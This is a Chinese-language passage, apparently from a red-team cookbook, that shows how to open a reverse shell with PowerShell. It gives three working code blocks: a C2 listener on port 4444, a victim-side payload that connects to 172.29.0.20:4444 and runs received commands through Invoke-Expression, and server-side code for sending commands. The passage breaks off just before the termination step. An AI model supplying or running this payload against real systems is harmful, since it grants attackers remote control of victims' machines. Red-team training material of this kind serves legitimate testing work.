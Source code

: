 ### 打开反向 Shell

你想在远程系统上打开一个反向 Shell。

反向 Shell 是红队员用来建立连接到远程系统的 Shell，无需发起远程会话。在反向 Shell 的情况下，通常会在受害者系统上存储一个有效负载。一旦该有效负载被执行，受害者会建立到由红队员指定的服务器的连接，通常在该服务器上有一个监听器等待传入的连接。

#### 解决方案

要通过 PowerShell 重现此操作，首先在 C2 服务器上创建并启动监听器：

```
$listener = New-Object System.Net.Sockets.TcpListener([System.Net.IPAddress]::Any, 4444)
$listener.Start()
$client = $listener.AcceptTcpClient()
```

一旦监听器启动，它会等待连接，并立即接受连接，并将会话存储在**$****client**变量中。

让**受害者机器**执行你的有效负载。可能会是这样的形式：

```
$client = New-Object System.Net.Sockets.TcpClient
$client.Connect("172.29.0.20", 4444)
$stream = $client.GetStream()
$writer = New-Object System.IO.StreamWriter($stream)
$reader = New-Object System.IO.StreamReader($stream)
while($true) {
    $data = ""
    while($stream.DataAvailable) {
        $bytes = New-Object Byte[] 1024
        $count = $stream.Read($bytes, 0, 1024)
        $data += [System.Text.Encoding]::ASCII.GetString($bytes, 0, $count)
    }
    if ($data) {
        Invoke-Expression $data
        $data = ""
    }
}
$writer.Close()
$reader.Close()
$client.Close()
```

这段代码创建一个新的 TCP 套接字，连接到**172.29.0.20** IP 地址上的**4444**端口，一旦连接成功，它会等待输入。客户端现在可以读取传入的命令或写入命令行。

再次，在 C2 服务器上，你现在可以通过流发送命令：

```
$stream = $client.GetStream()
$bytes = [System.Text.Encoding]::ASCII.GetBytes("Write-Host 'Hello world!'")
$stream.Write($bytes, 0, $bytes.Length)
$stream.Flush()
```

一旦需要终止连接，只需从 C2 服务器发送以下命令：
